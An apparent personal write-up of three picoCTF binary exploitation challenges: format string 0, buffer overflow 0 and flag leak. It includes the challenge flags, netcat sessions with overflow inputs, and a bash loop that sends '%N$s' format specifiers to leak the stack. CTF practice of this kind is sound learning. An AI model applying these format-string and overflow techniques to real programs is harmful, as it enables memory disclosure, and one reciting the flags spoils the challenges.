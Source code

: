 
# format string 0

**flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}`

**Thought Process**

* Since the first hint encouraged us to know about **format specifiers**, I knew the vulnerability would be something related to that.
* The second hint told us to try out different options. This, of course, referred to the code giving us options to input and it implied that inputting certain options would give us the flag.

Now, when you initially start the instance from the website, you're shown this:

```bash
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation:
```

At the first glance, instinctively I picked `Gr%114d_Cheese` has it had a format specifier (denoted by `%`, `%114d` just represents the number of characters it can hold) in it.  Upon that input, we're hit with:

```bash
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
```

As we can tell, there was a little bit of a glitch with the spacing, which further exposes the format specifier vulnerability. Now, obviously, we're gonna choose the option that has more number of `%`s, which is `Cla%sic_Che%s%steak`.  This then gives us the flag.

**Alternative Method**

After going thru the code provided to us, I noticed that there would be a certain threshold of the amount of characters I can give as input before the program malfunctions. So I tried inputting random number of characters and after I gave it 55 characters (to be exact), it directly spat out the flag.

```bash
shady@WIN-3CTPHJ9NI00:~$ nc mimas.picoctf.net 57883
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: noewnfnufnisbfaeisbfisabfaesbfsbfnefunfeneafaioufbeubfea
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

**Two things I noticed here are**: 
* The long string to be inputted does not require `%`s in it at all. A collection of random alphanumeric characters worked.
* The string had to be exactly 55 characters or more. Although I cannot explain why the number is 55 and not 64 or 32, I found it out thru trial and error. 

**Mistakes Made**

* Spent too much time trying to understand and modify the code to make it give me the flag. Pretty dumb move in hindsight. 

# buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

**Thought Process**

* Since this is another question using the concept of **buffer overflow**, I juts went thru the code once and noticed that to overflow `buf2`, I'd need to exceed it's capacity of **16 bytes**.
* I started with 16 and eventually, at 20 characters, It outputted the flag.

Here's the input and output for 19 and 20 characters respectively:

```bash
nc saturn.picoctf.net 50321
Input: uebfdiuewbfisdsssds
The program will exit now
^C

nc saturn.picoctf.net 50321
Input: uebfdiuewbfisdsssdsh
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```


# flag leak

**Flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`**

**Thought Process**

* We're given a file `vuln` , when executed using Linux asks us to tell it a story, and our hint is **Format Strings**, so I did some reading on format string vulnerabilities.
* Then I tried a bunch of format specifiers to see how it would react to them: 

![Pasted image 20241206135613](https://github.com/user-attachments/assets/5287c1f7-ab1a-4d10-9e79-d81a68e76e09)


* From this, we can tell that `%x` is the key to getting the program to output the flag, as I understood from the quoted article 

![Pasted image 20241206145855](https://github.com/user-attachments/assets/63bb86c4-b778-4c5a-bcbe-4e2bec75db7c)



* Now, trying to find the address of the flag string can be done using `dgb`, but instead I wrote a small bash script that ran all values from 0-50, and looked inside the contents:
  
```bash
for i in {0..50}; do echo "%$i\$s" | nc saturn.picoctf.net 60614; done
```

and this printed out a bunch of random characters UNTILL

![Pasted image 20241206150106](https://github.com/user-attachments/assets/989b1c6b-8af3-4e6a-9ab6-a64642a4b69e)

oh and for efficiency, we can make the script to grep the flag for a cleaner output, our new command would be:

```bash
for i in {0..50}; do echo "%$i\$s" | nc saturn.picoctf.net 60614 | grep CTF; done
```

![Pasted image 20241206153037](https://github.com/user-attachments/assets/0729db35-8f56-429b-bcfa-459da25bfe9c)


**Alternative Approach**

* Initially, I tried to find out the memory address of the flag using gdb, to do this, I used the command `gdb` in bash followed by `disass vuln` to come across:

![image](https://github.com/user-attachments/assets/c0741e52-6d3d-4635-b7e4-d54d0cd7ec08)

Here, we see that `readflag` is at the memory address `0x08049355`, So I added a breakpoint right after it at `0x0804935a`, and then ran the program, the commands I used were

```bash
b *0x0804935a
```
 and then 

```bash
run
```

which then prompted this 

![image](https://github.com/user-attachments/assets/d0158948-8fa7-4f16-a099-3275c858db1f)

where we can see that the flag is present in the 24th stack. This way, if we just input `%24$s` to the instance, it will output our flag.

![image](https://github.com/user-attachments/assets/8cea7d63-36c3-41a0-b9ed-c029ae983da7)




**New Things Learnt**

* A better grasp of how to deal with format string vulerabilities.
* Write scripts in bash.
* Locating the memory address of an entity using gbd.



**References**
* https://www.infosecinstitute.com/resources/secure-coding/how-to-exploit-format-string-vulnerabilities/


